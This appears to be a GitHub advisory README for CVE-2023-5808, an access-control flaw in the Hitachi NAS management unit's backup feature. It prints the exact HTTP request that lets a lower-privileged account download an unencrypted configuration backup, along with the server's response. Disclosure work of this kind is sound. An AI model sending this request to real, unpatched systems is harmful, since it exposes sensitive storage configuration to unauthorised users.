 ## CVE-2023-5808
`CVE-2023-5808` is an *Insecure Direct Object Reference* (**IDOR**) in 
vulnerability found in Hitachi NAS' (`HNAS`') *System Management Unit* (`SMU`) 
`Backup & Restore` functionality. This vulnerability affects `SMU` versions 
prior to `14.8.7825.01`.

## Exploitation
This exploit requires the attacker to have control over the credentials of a 
user account that is not `Read-Only` or `Global Administrator`, i.e.:
- `Storage Administrator`
- `Server Administrator`
- `Server + Storage Administrator`

By design, users with the `Global Administrator` role should be able to access 
`SMU`'s `Backup & Restore` functionality, located at `https://<HOSTNAME/FQDN/IP>/mgr/app/action/admin.SmuBackupRestoreAction/eventsubmit_doperform/ignored` 
and send the following request, which would create and download an 
(unencrypted/password-less) backup:

```
GET /mgr/app/template/simple%2CBackupSmuScreen.vm/password/ HTTP/1.1
Host: REDACTED
Cookie: JSESSIONID=REDACTED; JSESSIONIDSSO=REDACTED
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://REDACTED/mgr/app/action/admin.SmuBackupRestoreAction/eventsubmit_doperform/ignored
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

If the request is successful, the `SMU` responds with the following response 
and starts the download of `smu_2023-04-12_1543+0200.zip`:

```
HTTP/1.1 200 
Cache-Control: PRIVATE
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Strict-Transport-Security: max-age=31536000;includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
P3P: CP="NOI DSP CUR ADMa DEVa TAIa OUR BUS IND UNI COM NAV INT"
Pragma: cache
Content-Disposition: attachment;filename=smu_2023-04-12_1543+0200.zip
Content-Type: application/download
Content-Length: 1831412
Date: Wed, 12 Apr 2023 13:43:15 GMT
Connection: close
Server: SMU

[DATA]
```


[CVE-2023-5808]:                        https://www.cve.org/CVERecord?id=CVE-2023-5808
[CVE-2023-6538]:                        https://www.cve.org/CVERecord?id=CVE-2023-6538
[Hitachi Vantara Security Bulletin]:    https://knowledge.hitachivantara.com/Security/System_Management_Unit_(SMU)_versions_prior_to_14.8.7825.01%2C_used_to_manage_Hitachi_Vantara_NAS_products_are_susceptible_to_unintended_information_disclosure_via_unprivileged_access_to_HNAS_configuration_backup_and_diagnostic_data.